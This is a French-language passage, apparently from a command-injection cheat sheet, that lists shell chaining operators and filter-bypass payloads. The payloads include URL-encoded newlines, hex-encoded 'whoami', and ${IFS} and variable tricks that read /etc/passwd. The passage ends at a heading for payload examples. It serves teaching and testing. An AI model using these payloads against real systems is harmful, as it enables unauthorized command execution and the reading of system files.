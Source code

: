 ## Techniques d'injection

### Opérateurs de chaînage de commandes

Les opérateurs permettant de chaîner plusieurs commandes sont souvent utilisés pour les injections :

#### Unix/Linux

```bash
# Séparateurs de commandes
command1 ; command2         # Exécution séquentielle
command1 && command2        # Exécute command2 si command1 réussit
command1 || command2        # Exécute command2 si command1 échoue
command1 | command2         # Pipe: sortie de command1 en entrée de command2
$(command)                  # Substitution de commande
`command`                   # Substitution de commande (ancienne syntaxe)
```

#### Windows

```batch
command1 & command2         # Exécution séquentielle
command1 && command2        # Exécute command2 si command1 réussit
command1 || command2        # Exécute command2 si command1 échoue
command1 | command2         # Pipe: sortie de command1 en entrée de command2
```

### Techniques de contournement de filtres

#### Contournement par encodage

```bash
# Encodage URL
%0Aid                       # Encodage du saut de ligne (\n)
%0a%0did                    # Encodage du saut de ligne et retour chariot (\r\n)

# Encodage hexadécimal (Bash)
$'\x77\x68\x6f\x61\x6d\x69' # whoami

# Concaténation de variables (Bash)
c=cat;$c /etc/passwd
```

#### Séparateurs alternatifs

```bash
# Variables d'environnement et caractères spéciaux
${IFS}                      # Utilisation d'Internal Field Separator au lieu d'espace
X=$'cat\x20/etc/passwd'&&$X # Combinaison d'encodage et de variables
```

## Exemples de payloads
